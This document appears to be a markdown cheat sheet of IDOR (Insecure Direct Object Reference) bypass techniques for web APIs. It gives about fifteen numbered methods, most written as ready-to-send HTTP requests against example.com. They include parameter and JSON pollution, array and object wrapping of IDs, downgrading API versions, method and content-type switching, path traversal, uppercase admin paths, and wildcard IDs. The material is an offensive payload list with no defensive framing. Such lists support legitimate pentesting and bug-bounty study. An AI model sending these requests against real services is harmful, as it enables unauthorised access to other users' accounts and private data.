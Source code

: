 # Insecure Direct Object Reference (IDOR)

## Bypassing method
-----------------
GET /api_v1/messages?user_id=YOUR_USER_ID&user_id=ANOTHER_USERS_ID
GET /api_v1/messages?user_id=ANOTHER_USERS_ID&user_id=YOUR_USER_ID
GET /api_v1/messages?user_ids[]=YOUR_USER_ID&user_ids[]=ANOTHER_USERS_ID

## Change the request method
----------------------
try instead: GET, POST, PUT, DELETE, PATCH

## Change the requested file type
-------------
try adding .json


1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...
```

2. HTTP Parameter pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint
```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...
```

4. Test on outdated API Versions
```
POST /v2/GetData HTTP/1.1
Host: example.com
...

id=123
```
Try this to bypass
```
POST /v1/GetData HTTP/1.1
Host: example.com
...

id=123
```

5. Wrap the ID with an array.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}
```

6. Wrap the ID with a JSON object
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using GraphQL, try to find IDOR using GraphQL
```
GET /graphql HTTP/1.1
Host: example.com
...
```
```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...
```

10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /ADMIN/profile HTTP/1.1
Host: example.com
...
```

11. Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /file?id=302
Host: example.com
...
```

12. Change HTTP Method
```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```

13. Path traversal
```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...
```

14. Change request `Content-Type`
```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml
```
Try this to bypass
```
GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json
```

15. Send wildcard instead of ID
```
GET /api/users/111 HTTP/1.1
Host: example.com
```
Try this to bypass
```
GET /api/users/* HTTP/1.1
Host: example.com
```
```
GET /api/users/% HTTP/1.1
Host: example.com
```
```
GET /api/users/_ HTTP/1.1
Host: example.com
```
```
GET /api/users/. HTTP/1.1
Host: example.com
```